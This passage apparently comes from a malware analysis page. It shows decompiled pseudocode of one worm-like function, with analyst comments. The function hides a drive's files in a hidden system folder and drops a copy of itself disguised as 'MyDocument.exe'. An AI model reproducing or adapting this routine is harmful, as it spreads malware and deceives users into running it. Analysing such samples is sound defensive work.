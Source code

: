 }

HANDLE __cdecl sub_4013A0(int a1)
{
  HANDLE result; // eax@4
  HANDLE v2; // edi@4
  CHAR *v3; // [sp-8h] [bp-770h]@2
  CHAR PathName; // [sp+10h] [bp-758h]@1
  struct _WIN32_FIND_DATAA FindFileData; // [sp+114h] [bp-654h]@4
  char v6; // [sp+254h] [bp-514h]@1
  CHAR NewFileName; // [sp+358h] [bp-410h]@2
  CHAR FileName; // [sp+45Ch] [bp-30Ch]@4
  CHAR ExistingFileName; // [sp+560h] [bp-208h]@8
  CHAR v10; // [sp+664h] [bp-104h]@8

  wsprintfA(&PathName, aC, a1);
  strcpy(&v6, &PathName);
  strcat(&PathName, aMydocuments);
  if ( _access(&PathName, 0) ) // MyDocuments not exist
  {
    wsprintfA(&NewFileName, aSMydocument_ex, &v6);
    CreateDirectoryA(&PathName, 0); // create MyDocuments directory in h
    SetFileAttributesA(&PathName, 6u); // set MyDocuments attribute: hide | system file
    v3 = &NewFileName; // v3 = h:\\MyDocument.exe
  }
  else // exist
  {
    SetFileAttributesA(&PathName, 6u);
    wsprintfA(&NewFileName, aSMydocument_ex, &v6);
    v3 = &NewFileName;
  }
  CopyFileA(::NewFileName, v3, 1);
  wsprintfA(&FileName, aS_, &v6); // filename = h:\\*.*
  result = FindFirstFileA(&FileName, &FindFileData);
  v2 = result;
  if ( result != (HANDLE)-1 ) // find successfully
  {
    do
    {
      if ( FindFileData.cFileName[0] != '.' && (FindFileData.cFileName[1] != 'y' || FindFileData.cFileName[9] != 't') )
      {
        wsprintfA(&ExistingFileName, aSS, &v6, FindFileData.cFileName);
        wsprintfA(&v10, aSS, &PathName, FindFileData.cFileName);
        MoveFileExA(&ExistingFileName, &v10, 1u);
      }
    }
    while ( FindNextFileA(v2, &FindFileData) );
    result = (HANDLE)FindClose(v2);
  }
  return result;
}
{% endhighlight %}
